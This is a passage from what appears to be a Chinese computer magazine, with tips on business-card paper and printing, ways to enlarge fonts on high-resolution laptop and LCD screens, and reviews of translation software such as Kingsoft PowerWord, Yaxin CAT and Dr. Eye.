> 小技巧：也可以用Word做名片。设计时，通过“页面设置”，将“纸型”选项卡中的“纸型”项设为“自定义大小”，然后输入纸张大小。然后在“页边距”选项卡设置界面，设置上、下、左、右页边距、装订线均为数字“0”。通过“插入”菜单，选择合适的图标进行组合，使用也十分方便。

## 名片用纸常识及选购技巧

一般来说，名片用纸使用纸浆纸制成。纸浆纸品种很多，从普通的布纹纸到高级进口纸都有。下面，对其中的主要类型进行介绍。

### 1. 合成纸

合成纸（即“撕不烂”名片纸）实际上就是塑料薄膜。这类纸张只适合用激光打印机制作名片，不能用喷墨打印机制作，因为塑料薄膜不能吸收墨水，喷墨打印机喷出的彩色墨水在合成纸上无法被吸收，即使干后也无法使用，一擦即掉。选购合成纸时一定要注意选用高温合成纸，不能使用普通胶印名片使用的合成纸，否则会损坏激光打印机。普通合成纸高温下会融化，会粘在激光打印机出纸的定影部位，造成激光打印机的损坏。

> 小技巧：合成纸打印比普通纸打印难度大，易出现的问题是在字的周围出现散开的墨粉，解决的办法是将打印的浓度降低，一般降低一级至二级即可解决该问题。保证文字打印的浓度，降低浓度的方法，在高级的激光打印机上可以直接在面板上设置，其他打印机可以在打印机设置内选择适当的选项。

### 2. 过塑铜板纸

过塑铜板纸名片是伴随着90年代初“电脑名片软件”的出现而发展起来的。它一般采用18开铜板纸在纸上印刷好各种彩色图案（比如，每页印十张名片）。然后，在电脑上用名片设计软件把名片资料排版好，用激光打印机将整页打印出来，再用专用过塑薄膜胶片过塑，最后再用名片裁剪机裁剪。

### 3. 过塑胶片

过塑胶片是配合过塑铜板纸制作过塑名片时使用，其厚度有4S、5S两种，可分别用于不同纸张的厚度。如果选用4S厚度的胶片并且铜板纸厚度较薄，很容易出现成品起皱的现象，因此要适当注意温度和进纸方法。

通过本文由浅入深的介绍，普通的用户已经可以动手设计自己的精美名片了。在设计名片之前，我们还需要多多考虑以下问题：用户是否会因为无法迅速找到重要信息而感到不快？是否因为名片太小而阅读困难？或是字体不易辨认等等。可见，虽然只有方寸大小，但名片却包含了美术、电脑、印刷、出版、心理学等很多行业的知识，这需要在平时的实践中多多锻炼，从优秀的作品中不断汲取营养和精华，这样，我们就能在制作过程中更有“面子”了。

# 高分屏笔记本/液晶显示器字体太小怎么办？

文 / 胡鹏

众所周知，笔记本电脑一般采用1024 × 768（XGA）分辨率的14.1英寸TFT液晶屏，优点是价格便宜，缺点是图像不够细腻。而有的高端笔记本则采用了1400 × 1050（SXGA+，高分屏）分辨率的14.1英寸TFT液晶屏，优点是像素点小，图像细腻，在14.1英寸下SXGA+分辨率比XGA分辨率可以多显示87%的信息；缺点是在Windows的默认设置下，高分屏笔记本显示的字体太小，有很多人都不适应，看久了头晕眼花甚至恶心。17英寸液晶显示器也存在同样的问题：它是个过渡产品，在标准分辨率1280 × 1024下，字体显示较小，而15英寸液晶显示器的标准分辨率为1024 × 768，19英寸液晶显示器的标准分辨率则跟17液晶显示器一样为1280 × 1024，它们都不存在字体太小的问题。

有人说，将分辨率改小一些，改成800 × 600，字体不就大了，不就解决问题了吗？稍有一些电脑基础的读者都知道，对于笔记本电脑屏幕和液晶显示器来说，因为工作原理的特殊性，必须要工作在标准分辨率下，才能获得最好的显示效果。因此不能更改为非标准分辨率的方法来获得较大的字体和屏幕项目，那样做所付出的代价是模糊的、惨不忍睹的显示效果，实在是跟我们的初衷背道而驰了。实际上，我们可以通过下面的方法来扬长避短，改善显示器字体太小的问题。

## 方法一：更改字体

在桌面空白处单击鼠标右键，选择“属性”命令，然后在弹出的“显示 属性”窗口中单击“外观”选项卡，在“字体大小”下拉列表中选择“大字体”或者“特大字体”，单击“应用”按钮即可看到大字体的外观效果，如图1所示。假如上述方案不能让你满意的话，还可以单击“高级”按钮进行详细设置。这种方法对于非高分屏的普通笔记本电脑也是适应的，总之让我们看得更轻松才是最终目的。

需要注意的是，上述操作并不更改 IE 浏览器显示网页时的字体大小，网页上的字体可能仍然很小，可以通过下面的方法来解决问题。

打开 IE 浏览器，选择“工具”→“Internet 选项”菜单，在弹出的“Internet 选项”窗口中右下角单击“辅助功能”按钮，然后在在弹出的窗口中选中“不使用网页中指定的字体大小”选项（如图2所示），单击“确定”按钮后 IE 中的字体大小就会跟随系统设置而变大。

这种方法也有缺点：容易引起网页的错位。如果网页错位，或者你觉得字体太大或者太小，可以在 IE 的菜单中单击“查看”→“文字大小”，然后选择一个合适的字体大小。

## 方法二：更改DPI

这里首先要诠释一下 DPI 的概念。DPI 的英文全称为 Dot per inch，就是一英寸上显示的点，是描述图像精密度的一个参数。事实上，这里的所谓的 DPI，是操作系统和浏览器中使用的术语，即为 PPI（pixels per inch），和扫描仪、打印机、数码相机中的 DPI 是不同的概念。

在桌面空白处单击鼠标右键，选择“属性”命令，在弹出的“显示 属性”窗口中单击“设置”选项卡，单击右下角的“高级”按钮，然后在弹出的窗口中单击“常规”选项卡，在“DPI 设置”的下拉列表中选择“大尺寸 (120DPI)”，如图3所示，最后单击“确定”按钮。需要注意的是，可能会需要插入 Windows XP 系统安装光盘才能完成设置，设置结束一定要重启否则有些程序运行会不正常。

下面来解释一下这么做的原理。Windows XP 默认是96DPI，96DPI可以理解为用96像素来表示一英寸，而变成120DPI的时候，是用120像素来表示一英寸，而系统的对象（字体，图像是）用英寸数来表示的，所以120DPI时，图像和字体就变大了。

这种方法的优点是字体、图标、对话框和所有的系统图形元素都会随之加大，而且它不是采用拉伸来显示的，并不影响显示画质。缺点是有些界面设计很紧凑的程序界面会显示出错位，在部分网页上也会出现文字和图片错位的情况。

以上两种方法并不是独立的，可以结合起来灵活使用，直到获得满意的显示效果为止。

## 方法三：使用其他网页浏览器

如果只是感觉上网时网页里的字体太小，可以采用下面几种方法来解决问题。

安装腾讯TT浏览器（安装QQ时即可选择一起安装），运行腾讯TT，选择“查看”菜单，再选择“网页缩放”项，再选择“自动缩放”项（见图4），这样，你就在自动缩放项里面可以选择喜欢的网页缩放大小。这样做的优点是：不会使字体显示重字，网页均匀缩放，看起来很舒服！

如果你使用的是 IE 7 或 Maxthon 浏览器的话，方法就更简单了：按住 Ctrl 键然后前后滚动鼠标滚轮就可以调节字体大小了；在 IE 7 中，使用 Ctrl + "+" 或 "-" 键也可以调节字体大小。

最后说几句“题外话”，在以前的媒体宣传中，往往都是告诉读者，液晶显示器无闪烁，更利于保护视力。其事实并非这么简单！书本更无闪烁，为何看书也会近视呢？一方面是阅读习惯不好，一方面是因为字太小，眼睛容易疲劳。这就是很多人觉得使用笔记本电脑眼睛更累的原因，因为字体和图形元素太小了！灵活使用本文的方法，将液晶显示器字体变大，可以更好地保护视力。实际上，此法不仅对 SXGA+ 高分屏笔记本电脑和17英寸液晶显示器适用，如果电脑的使用者是视力不太好的老人，也可以通过上面讲述的方法来进行调节，改善视觉效果，保护视力。

# 翻译要更简单
——实用翻译软件解决方案

文 / 彭文波

近年来，翻译软件的发展经历了大幅度的起起落落，但总的方向是功能更加全面，使用更加简单。2003年11月27日，国家标准化管理委员会批准发布了《翻译服务规范 第一部分 笔译》（GB/T19363.1-2003）国家标准。2003年12月3日，《翻译服务规范》英文版通过了由中国标协和国家标准化管理委员会国际部组织的专家审查。这次同时推出中英文版本，在我国标准制定史上还是第一次，也是我国第一部英文版的推荐性国标。政策的鼓励、标准化的建立、翻译项目化的发展，无疑将对翻译软件的发展具有很大的推动作用。

随着技术的不断成熟，翻译软件的发展开始对翻译工作产生越来越大的影响。特别是在中英文翻译软件市场，翻译软件正成为人们日常工作中十分重要的一个部分。除了考察软件功能，还要综合对比使用方便性等多种因素，因此，本专题收集了多种功能全面而独特的各类翻译软件，并介绍其具体操作步骤，让你的翻译过程更加简单。

## 一、大块头大智慧 功能强大的专业翻译软件

专业翻译软件的显著特点是功能丰富、专业性强，但文件普遍比较大。下面，主要介绍金山系列、交大铭泰系列、Dr. Eye 译典通等专业的翻译软件。

### （一）珠联璧合：金山词霸2007与金山快译2007

- 推荐指数：★ ★ ★ ☆ ☆
软件下载地址：http://cp.iciba.com/index.shtml

#### 1. 金山词霸

1997年，第一款金山词霸软件发布。至今，金山词霸已经走过了整整十个年头。相比前一版本，金山词霸2007在界面上显得清爽了许多。安装金山词霸以后，在Windows窗口的工具栏就可以看到“金山词霸2007”的图标了。软件界面如图1所示。



##### （1）词库资料更丰富，用户体验更新颖

金山词霸2007几乎继承了历史版本的全部优点，而且在词典数量、例句数量、用户体验等方面也做了很大改进。金山词霸2007收录了与朗文、牛津、韦氏齐名的四大词典之一《美国传统词典》最新版，包含96000余词条，例句词库由原来的15万增加到了70万；收录了150余本词典辞书、70余个专业词库、28种常备资料。当有最新的功能出现或词典数据更新时，软件即可实施自动更新。其次，软件全面支持简体中文、英文、日文查词功能，能满足用户对多语言的需求。另外，为了迎合最新的技术发展潮流，金山词霸2007还支持最新的Windows Vista操作系统。PDF文档等各种环境下的取词功能也更加准确。

##### （2）新颖的屏幕取词条

在金山词霸2007中，屏幕取词条也被重新进行了设计。当用户将鼠标短暂悬停于某个词语之上时，屏幕取词条便会自动弹出。通常，由于要考虑词语的查询速度，因此，取词条默认只会在几款常用词典中进行搜索。

**小技巧：** 如果需要快速关闭屏幕取词功能，直接双击一下取词条即可。如果感觉取词条中的解释不够丰富的话，可以单击“设置”按钮下的“设置”命令，在“取词词典”中添加比较常用的小词典。不过，这样会影响取词速度，在使用的过程中可以合理利用。

##### （3）网络查词更方便，查词历史更详细

由于词汇的更新日新月异，几乎没有一款软件能够百分之百地满足用户的需要，因此，通过实时性更强的互联网可以实现功能的延伸。当用户在本机中查出的注解无法满足需要时，点击“网络查词”按钮，浏览器便会直接连接到金山公司的“爱词霸”网站，同时显示出待查单词的详细解释。其次，软件可以很方便地调取到历史查询记录。操作方法非常简单，只要点击一下词汇搜索栏后面的下拉按钮，就可以看到所有的查询记录了。

**小技巧：** 用户可以自己定义查词历史的保存条数，点击“设置”按钮下的“设置”命令，进入“选项”窗口，然后点击“其他设置”标签，就可以在右边框中发现历史条数设置框了。如果不想保留历史记录，只要点击一下“清除查词历史”按钮就可以了，如图2所示。

##### （4）用户词典更实用，定义词条更快捷

有时候，我们希望能保留一些个性化的词条，这时，“用户词典”就可以派上用场了。在金山词霸2007的主界面中，点击“设置”按钮下的“用户词典”命令，便可以调出用户词典主窗口。在这里，能够方便地将新词条的内容填写进来，然后点击“添加”按钮，将其直接添加到用户词典中。运行后，可以采用鼠标屏幕取词功能，当我们把鼠标指向一个英文单词的时候，就会有一个浮动窗口弹出显示这个词语的含义。

**小技巧：** 要想让新增的自定义词条生效，还要在“选项”窗口的“取词词典”（或“查词词典”）一项中，勾选“用户词典”复选框，设置方可生效。

##### （5）全文检索更巧妙，查找方式更多样

相比以前版本，词霸2007尤其加强了查询功能，可以让我们更容易地找到需要的词条。第一种方式是通过软件附带的分类词表进行查询，因为在其中按照英文单词的解释分为数十个大类，并且在每一类中都还有更为详尽的小类划分。第二种是听音查找。词霸2007采用了国际顶尖的TTS语音技术，能够对任意单词、语句，甚至可以流利地朗读出用户指定的任何一段英文，而且是带语气的朗读，不是逐词机械发音。通过对发音引擎的调整，还可以按照需要设置朗读的语速、音量和频率。使用时，可将该词的大致读音用拼音写出，再按动回车键并点击“给出拼写近似的单词”命令即可列示。第三种是通配符查找。查找时，使用“?”代替当前位置上任意一个字母，而用“*”代替任意多个字母进行查询。

##### （6）“迷你背单词”和“词霸生词本”

为了进一步丰富软件功能，金山词霸2007还推出了两款附属软件，分别是“迷你背单词”和“词霸生词本”。“迷你背单词”就是在屏幕顶端设置一个词汇滚动条，通过经常观看这些单词，来达到强制记忆的目的。如果用户正在准备英语考试，这是一款不错的学习帮助软件，通过点击工具条上的“设置”按钮，可以非常方便地迎合用户自己的需要。“词霸生词本”也是一款强化记忆软件，它的主要任务是将大量生词集中在一起，同时记录下每个生词的陌生系数，最后，再根据这些系数，对我们进行不同强度的测试，效果很是不错，如图3所示。

除了上述功能，词霸2007还提供了翻译句子功能，能够直接将当前单词所在的句子翻译出来；而且，新版词霸2007和老版本相比，内存资源占用大幅度降低，是一款十分优秀的专业翻译软件。



#### 2. 金山快译2006/2007

金山词霸在单词翻译上表现十分优秀，但是在全文翻译上功能要差些，为了弥补缺陷，金山公司又推出了金山快译，它能够把一篇英文文章翻译成可以识别的中文。两者配合，可以优势互补。目前最新的版本就是金山快译2007了，软件采用了历经10次升级的全新AI人工智能翻译引擎，支持更多的档案格式，包括PDF、TXT、Word、Outlook、Excel、HTML网页、RTF和RC格式文件。金山快译2007由三个功能组成：全文翻译、永久汉化和游戏汉化。主要功能如下：

##### （1）翻译插件功能和批量翻译功能
它可以在WORD、IE、PDF文件上内嵌翻译插件，方便用户随时进行翻译的操作。此外，批量翻译功能可以大大节省操作时间，适合大量格式相同的数据文件成批地进行翻译处理。

##### （2）英文写作助理
顾名思义，这是一个帮助用户书写英语的小工具，它可以被用在任何文本编辑器中。开启写作助理后，显示出与拼写相似的单词列表以及单词的释意，同时还可以自动识别大小写。用户可以根据列表迅速找到需要输入的英文单词。写作助理不仅可以帮用户找到单词，同时还可以帮助用户输入相关的词组。该写作助理可自动安装在系统输入法栏中，启动和切换写作助理与其他输入法操作方法一样，可以随时调用。

##### （3）网页翻译
在上网浏览的过程中，网页翻译功能十分方便。打开网页，点击“中英”、“英中”等按钮，几秒钟即可完成翻译，网页版式不变，用户可根据翻译过来的内容直接点击所需内容。使用翻译插件功能时，可以在浏览器上内嵌插件，无需启动程序，只需点选IE工具栏上相应按钮就能完成各种翻译功能。

##### （4）全文翻译
全文翻译是对英文文本、网页等类型的文件进行翻译，它采用全新多语言翻译引擎，用户只需打开相关文件或粘贴文章内容，就能马上实现高质量的翻译，甚至还支持批量文件翻译。当我们既要对单个单词取意解释，又要对全文进行翻译的时候，金山快译还必须与金山词霸联手工作。要是用户机器配置够棒，那么金山的两个工具组合起来威力将是非常强大的。启动“全文翻译”，点击“英汉”或“汉英”，即可进行翻译，如图4所示。


### （二）铭泰三剑客：东方大典、东方快车和雅信CAT3.5

- 推荐指数：★★★☆☆

软件下载地址：http://www.sunv.com

交大铭泰于2004年1月9日在香港创业板上市，股票代码为8148HK。其自主开发的专业辅助翻译工具《雅信CAT》曾获得国家重点新产品称号，并推出了全新翻译服务运营模式——东方翻译工厂。东方大典、东方快车也是该公司的产品。东方系列翻译软件和金山词霸可以相提并论，不过在软件更新上稍显落后，但通过近期的一系列产品整合，其翻译软件的优势也得到了明显的提升。

#### 1. 东方大典2003
这款软件的核心功能是查词、取词，分为普通查词和拖拽查词。普通查词是以常规方式在大典主界面的查找文本框中输入用户想要查找的词，即可实现翻译；拖拽查词时用户选中未知词再直接拖入到主界面的查找文本框即可，如图6所示。



##### （1）拖拽取词功能
当我们需要了解一些词语的具体含义时，通常都是将其输入到东方大典的输入框中进行查询，但这样做一方面工作效率低下，另一方面是容易出现输入错误的情况，为此我们可以使用程序提供的拖拽取词功能。比如打开一篇文档之后选择其中的某个单词短语，再用鼠标将其拖拽到东方大典的输入框，程序马上就会显示出具体的释义了。

**小技巧：** 使用东方大典查找某个单词的时候，不仅可以直接从词库中进行搜索，还可以借助软件的“超级搜索”功能来进行更为全面的查找。比如针对“Office”搜索的时候，超级搜索功能可以帮助我们找到许多与Office相关的短语。

##### （2）资源消耗低
东方大典采用了另外一种嵌入的工作方式，它能够自动在我们最常用的Word和IE浏览器工具栏中添加一个激活按钮，因此需要翻译的时候根本无需运行主程序，只要按下这个按钮就能够在Word和IE中取词，这样不仅节约了系统资源，同时也不会影响我们的正常工作。

##### （3）个人电脑助理
在东方大典里面，以模块的形式捆绑了“个人电脑助理”，这是一个非常人性化的软件，包括随手贴功能、MP3背单词、通讯录等。其中，随手贴功能是实现随手写个提醒自己的帖子。用户可以通过鼠标右键轻松地增加、删除自己写过的帖子，还可以通过双击已经存在的帖子，设置其字体、背景与边框的颜色，也可以通过设置栏设置定时提醒。通过右键单击状态栏上的托盘图标，选择“设置”，则会弹出设置对话框，如图7所示。此外，软件的MP3背单词功能、通讯录等功能也非常实用。



#### 2. 东方快车2003
东方快车是一种智能实时汉化软件，并提供了即时修改功能。其主界面仍然采用了浮动式自动隐藏的主菜单，这个菜单显示在活动窗口的右上部，不会影响用户撰写文档、编译程序、上网冲浪等正常工作，而且所有的功能都可以通过菜单上的按键来即时激活，所以它的上手使用还是非常简便的。东方快车比较突出的主要优点有：

- （1）互联网搜索功能
它吸取了全屏汉化软件的长处，在整句翻译、全文翻译中也采用了智能手段。对文件名、目录名、程序区、网址、域名等不需要翻译的内容进行了智能识别，并且对汉化后容易模糊的字进行了处理，使其汉化后仍然清清楚楚。打开一个英文网页，使之处于激活状态。东方快车在安装后会和系统紧密整合，在网页状态条上新增了三个按钮，使用户可以快捷方便的汉化网页。如图8所示是一个翻译后的美国在线的页面。



- （2）词汇功能
东方快码支持GB、BIG5、HZ、GBK简体、KSC、GBK繁体、Euc_JIS、New_JIS、Unicode等近十种内码的转换。在用户浏览不同内码网页或者收到乱码的Email时，就可以使用东方快码使其正常显示。例如可以扫除游戏中英文的障碍，可以方便地对语法库和词库进行修改添加，还可以实现用户交流和扩充。

- （3）修改、编辑功能
它采用了英汉词语关联技术，使用户可以方便简捷地对结果进行修改、编辑等。以前使用东方快车时可以对一篇英文进行全文翻译，但是翻译之后的结果无法保存下来，那么现在就可以利用东方快文来进行翻译。此时不仅能够保存翻译结果，还提供了全面打印和打印预览的功能，并且对于剪贴板中的内容也可以进行翻译，然后将翻译结果送回到剪贴板中。

- （4）永久汉化功能
这是东方快车的一个特色功能，使用永久汉化功能汉化后的软件可达专业汉化水平，汉化后的软件可以直接以中文版运行。软件采用了全新嵌入式内核，实现零资源占用，做到无需启动即可翻译，可以快速翻译英文、中文和日文网页，并且支持对照翻译、汉语拼音标注、简繁转换及转码功能，首创模糊字体处理技术，使得网页格式保持更加完整。需要时，只需单击按钮即可翻译。另外，它所提供的“对照”功能也十分方便，特别是对于学习英语的电脑爱好者来说，可以进一步增长英语方面的知识，提高学习兴趣。

总的来看，东方快车在汉化方面表现仍然后劲十足。用户只需按一下热键，就可以完成短句和段落的即时翻译、即时修改、即时记忆。包括英中翻译、中英翻译、日中翻译及简繁转换，并且可以修改词义、调整语序，还可以将修改好的翻译结果添加到语料库中，以后再翻译这个句子时就能得到高质量的结果。

#### 3. 雅信CAT 3.5
软件下载地址：http://www.yiba.com/

“雅信CAT3.5”是专业辅助翻译平台《雅信CAT2.0》中的一个模块，是为专业翻译人员量身打造的辅助工具。为了加强在翻译领域内技术的垄断地位，1999年，交大铭泰收购了国内著名的专业翻译辅助工具雅信CAT，该产品在专业的翻译服务中具有绝对的领导地位。其最大的特点是优质、高效、方便实用，主要采用翻译记忆和灵活的人机交互技术，可以大幅提高翻译效率、节省翻译费用、保证译文质量。适用于需要精确翻译的小团体和个人。

- （1）先进的翻译体系
雅信CAT的翻译是基于传统语法分析与实用语法，用户能够根据翻译的内容自行定义语法模式，从而提高系统自动翻译结果的准确度。翻译后的句子以原文、译文双语形式保存，使得校对和修改非常方便；而且编辑过的双语文档还可以直接生成为记忆库供重复使用。如果个别词义拿不准，可使用雅信CAT的快速搜索引擎对选定的任意词、词组的组合进行例句搜索，在例句库中查找包含被选定语汇的典型例句，作为翻译参考。

- （2）自动翻译和修改机制
对于简单句或语法较规则的句子，雅信CAT的自动翻译机制可以给出正确的译文。编辑框中的句子被选定加黑，表示当前正在翻译的原文内容。“单句译文框”中出现了一句中文，这是系统自动翻译的结果，即参考译文。“交互工作区”出现了按顺序排列的单词、词组及其中文释义。如果系统给出的参考译文有误，可以用鼠标点取所需的内容组成通顺的译文。雅信CAT拥有优秀的记忆机制，在翻译过程中，它的搜索引擎还会瞬间查找记忆库，对需要翻译的内容进行快速分析、对比，保证相同的句子永远不要翻译第二遍。因此历史素材的重复利用，不但提高了翻译效率，而且达到了翻译结果的准确和统一，同时还降低了成本并节省了时间。

- （3）和WORD无缝对接
在翻译过程中，保留原文版面和格式是非常重要的，而雅信CAT与WORD的无缝对接兼容了流行的文档格式。就像在WORD上添加了翻译功能一样方便，用户的工作界面就是WORD本身，翻译结果和原文版面、格式完全相同，不需考虑文档格式和排版信息，真正做到了翻译排版一次完成，一举两得。

**小技巧**：用户对译文的编辑排版可以使用WORD的所有功能。

①连接WORD。单击“Word”菜单，选择“连接”命令，如果用户已经启动了WORD，将与当前启动的WORD建立连接，否则自动启动MS-Word。

②打开待翻译的文件。在WORD模式下，翻译方法和组句过程与使用雅信CAT双语编辑框时完全相同。在这里，MS-Word代替了“雅信CAT”的“双语编辑框”，文件的打开、保存和编辑在WORD中进行。同时，MS-Word的各种功能在翻译过程中都可以使用，实现了翻译排版一次完成，而且可以翻译所有Word能够打开的文件格式。单击WORD“文件”菜单，选择“打开”命令，选择要翻译的文件，按“打开”按钮，文件即显示在WORD窗口中。

③翻译句子。把WORD插字符光标放到要翻译句子的开始，单击CAT“翻译一句”按钮，系统即在WORD编辑框中选定一句加上边框提示，并把句子送到雅信CAT中。这时，用户可以采用交互方式进行翻译。如果WORD断句有误或要翻译句子中的片段，可以在WORD中拖动鼠标选定要翻译的部分，然后单击CAT“翻译一句”按钮。当完成译文组句后，可以单击“确认本句”(Ctrl+L)或“确认并继续”(Ctrl+Enter)按钮，把单句译文送回WORD编辑框，如图9所示。


**小技巧**：如果按“确认并继续”按钮没有从WORD中取回句子而且待翻译的文档没有结束，可以按“翻译一句”按钮往下继续。如果WORD插字符位于已经翻译的句子中，按“翻译一句”按钮无效，请把插字符移到要翻译句子的句首。使用过程中，尽量不要选用“使用智能粘贴”功能，否则，将会引起双语单元对的错位。取消的方法是：单击Word“工具”菜单，选择“选项”命令，在“编辑”选项页中取消“使用智能粘贴”即可。

- （4）交互翻译及标记显示
对于翻译过的句子，雅信CAT以双语单元对的形式在编辑框中显示。这种做法的好处是可以在翻译、校对和项目管理整个翻译流程中方便地传递并利用原文和译文信息。为了防止双语单元对标记被删除，系统对标记进行了保护。这样，用户就不能随便编辑跨单元的内容了。用雅信CAT交互翻译方式，可以使修改结果存入记忆库，修改的结果可以被复用。同时雅信CAT还可以合并已翻译的句子；拆分已翻译的句子；修改例句库中的句子；选择部分内容翻译；改变单句译文的格式。这些功能使得这个软件在翻译行业更加专业化，如图10所示。

- （5）大型翻译项目管理机制
类似全英文书籍的翻译这样的大型翻译项目需要许多人协作完成，“雅信CAT”根据翻译项目组的工作特点，专门设计了灵活的项目语汇管理机制，从而建立标准化翻译流程。在翻译之前，“雅信CAT”可以对需要翻译的文件进行分析，给出项目有关数据，生成翻译项目词库和例句库，由项目负责人对项目中要用到的语汇统一定义，保证译文中语汇前后一致。项目组可定期汇总语料库，资源共享，减少重复劳动。在局域网工作的小组更可通过服务器，实时更新语料库，达到资源完全共享，最大限度地减少重复工作。针对英汉自动翻译的难点，“雅信CAT”提出了独到的解决方案。首先，在系统中收入了大量的习语、短语和词组。第二，采取了分类关联技术，在译文选词上有所突破，极大地减小了单词的歧义性。第三，采用广义语法表示体系，在语法分析上有所突破，提高了译文的正确率。第四，系统具有自学习功能，同时具有智能联想能力，语法规则可以分类继承，使系统具有相当高的智能。

综合点评：上述三款软件同出自交大铭泰公司，功能上也表现出多样性。前两款软件更新速度比较慢，这也影响了现有用户的使用。但从雅信CAT身上，我们看见了人性化的特点，因为它提供了整句的参考译文、片段译文、智能联想、语法提示及每个单词的解释，就像从大到小的一系列积木，由用户将其组成通顺的译文。尤为突出的是其超大容量的专业词汇和独具特色的记忆功能，可自动将用户翻译的内容记忆到知识库中，用户通过使用不断积累，系统智能化程度迅速提高。

### （三）瞄准海外：功能卓越的Dr. Eye译典通

推荐指数：★★★★☆

软件下载地址：http://www.dreye.com.cn

“Dr. Eye 译典通”由英资达（上海）公司出品，在我国港台地区和海外市场比较流行，在海外华人群体中拥有较高的知名度，其早期版本开发于1995年，但由于它的开发团队在我国大陆，而销售团队却在我国台湾，所以国内用户接触这个软件的机会不太多。它把所有功能分为基本功能、翻译功能和学习功能三大类。软件植入了华建专业翻译引擎，在全文翻译、网页翻译和文件翻译功能模块中，除了原来的英汉单向翻译外，还增加了其反向的汉英翻译及日汉汉日双向翻译，并大幅提高了翻译的精准度。现介绍如下：

#### 1. 基本功能
包括：即时翻译、即时写作、即时辞典、多语输入、即时语音、生字笔记、多语浏览等。

##### （1）即时翻译
这是Dr. Eye系列产品中最具吸引力的功能之一，其多窗口显示方式是英业达独创的一项技术，已在多国获得专## 超级应用方案特辑·软件

例如，在浏览英文、日文时，看到陌生的单词，只要把鼠标指针移至此单词上，就可以立即看到它的中文解释，这样就可以大大地提高您获取信息的效率。在即时窗口中，包含了即时辞典、自动整句翻译、英文单词衍生信息、显示例句等功能，如图11所示。



##### （2）即时写作
在控制栏上，点击“即时写作”按钮下的小三角图标，在打开的菜单上再点击“启动即时写作”即可。启动即时写作后马上会出现即时写作窗口，这个窗口与“即时翻译窗口”非常相似，区别在于即时翻译窗口会随着鼠标指针的移动而显示不同内容，而即时写作窗口会随着输入光标的移动而变化。
- 小技巧：还可以直接点击控制栏上的“即时写作”图标按钮，以启动或关闭即时写作功能（不包含即时拼写检查功能）。

##### （3）即时辞典
Dr.eye的即时辞典包括了一系列辞典工具：英汉汉英辞典、日汉日辞典；英语学习参考（英语谚语名言、分类辞典、商务书信大全、英语人名辞源、英语构词法、英语语法、英语不规则动词变化和英语用法）；书籍以及在线辞典。内容十分丰富，只要点击某一辞书，就可以打开该辞书的资料库进行查询。另外，在即时辞典中，还有在线辞典，可以通过它直接联网查询资料，如图12所示。



##### （4）多语输入和多语浏览
可以输入简体中文、繁体中文以及日文片假名、平假名，支持使用全拼、智拼、注音等一般输入法以及智注、英中、英和等先进的输入法。多语浏览功能让用户轻松浏览简、繁、日、韩等多种文字及内码。内码包括：Big5、GB、JIS/Shift-JIS、EUC及KSC-5601等。用户可以在现有的操作系统中，使用原有的中文输入习惯，随意编辑、打印简、繁体中文。

##### （5）即时语音和生字笔记
Dr.eye的TTS英文引擎是用L&H公司的产品，它自行开发的TTS中文引擎对中文语音进行了平滑处理，语音朗读更加流畅和清晰。选中单词、句子或者整段文字，然后点击译典通控制栏上的“即时语音”图标按钮。要反复聆听，只要不断点击“即时语音”按钮即可。“生字笔记”则可以帮助用户方便地摘录中文、英文或日文单词，并分别放在英汉主辞典、汉英主辞典、日汉主辞典和汉日主辞典四本生字笔记中。

#### 2. 翻译功能
包括：全文翻译、网页翻译、文件翻译、界面翻译等。

##### （1）全文翻译
支持多达十种的全文翻译类型：繁简、简繁、英繁、英简、繁英、简英、日繁、日简、繁日或简日，可以根据需要点击选择。点击全文翻译窗口中的“打开”按钮，开启要翻译成英文的简体文件。如果要翻译的简体文件不是Unicode码，开启前要先选择打开的字符集。点击“简英”按钮，稍等片刻即可把简体中文翻译成英文，如图13所示。
- 小技巧：为了更快速地选择某一翻译类型，可以先到“自动翻译设置”中选择自己常用的翻译类型，为自己量身定做一排翻译按钮。



##### （2）网页翻译和文件翻译
软件支持多达十种的网页、文件翻译方式，可以根据需要选择。翻译之前，可以先到“自动翻译设置”中选择自己常用的翻译类型，为自己量身定做一排翻译按钮。另外，使用Microsoft Internet Explorer中嵌入的网页翻译按钮，可以执行同样的功能。
- 小技巧：如果在Microsoft Internet Explore中找不到嵌入式的网页翻译按钮，可以使用以下方法：点击IE的“查看”菜单，选择“工具栏”菜单下的“Dr.eye Webpage Translation”选项即可。在中文Windows 2003中，预设情况下网页翻译没有嵌入Microsoft Internet Explorer，可以点击IE“工具”菜单下的“Internet选项”，在弹出的窗口中选择“高级”标签，再选中“启用第三方浏览器扩展”即可。

##### （3）界面翻译
在使用各种英文软件时，通过开启“界面翻译”，软件的英文菜单便会自动变成中文，使用起来当然就会容易多了。

#### 3. 学习功能
Dr.eye翻译软件的学习功能非常强大，加上软件公司的海外背景，在英语发音等方面具有天然的优势，因此在这方面对用户具有很大的吸引力。其学习功能主要包括：单词通、句型通、试题通、语音通等。

#### （1）单词通
用于单词的背诵复习和测试，可以帮助用户更好地学习和熟记从小学、中学一直到大学、GRE的各级英文单词。使用单词通前，可先到“系统设置”修改“单词通设置”。在单词通窗口中，点击“测试”按钮，即可进行单词测试。

#### （2）句型通
用于常用句型的复习和测试，可以帮助用户更好地学习和熟记从易到难、四六级考试的常用句型。使用句型通前，可以先到“系统设置”中修改相关设置。

#### （3）试题通
根据需求生成英文试卷，供用户测试，答题后可以批改试卷，并可查看正确答案。通过这种自我测试，有针对性地提高英文水平。

#### （4）语音通
可以帮助管理各种语音课件，充分发挥多媒体电脑的优势，结合“听、读”的学习语言基本法则，灵活播放课件并支持复读录音，提供一个能够实现多媒体交互式学习与训练的全虚拟平台，如图14所示。



综合点评：Dr.eye 译典通在功能设置上十分清晰，包括了基本功能、翻译功能和学习功能，因此，十分方便用户的使用。除了强大的词典功能，Dr.eye另辟蹊径，在即指即译、模糊查询、TTS语音方面可谓下足了功夫，将技术与理念合二为一，也是一款非常值得推荐的优秀翻译软件。

## 二、草根英雄：精彩纷呈的各类翻译软件

有名人的地方自然也有草根，在这个草根英雄辈出的时代，翻译软件市场也是精彩不断。下面，通过网友下载量、更新速度以及人气等方面进行综合选择，推出如下实用、方便的各类特色翻译软件。

### （一）全文翻译类

#### 1. Babylon翻译软件

软件下载地址：http://www.babylon.com/
巴比伦的空中花园让人叹为观止，而与之同名的翻译软件创始者巴比伦公司则给世界上不同语种的人们搭起了一座语言交流的桥梁。Babylon翻译软件即是其中优秀的代表作品。最近它一举荣获《家庭电脑》杂志年度最佳软件及《家庭电脑》评选的最佳教育软件奖。软件特色如下：

- （1）网络搜索功能
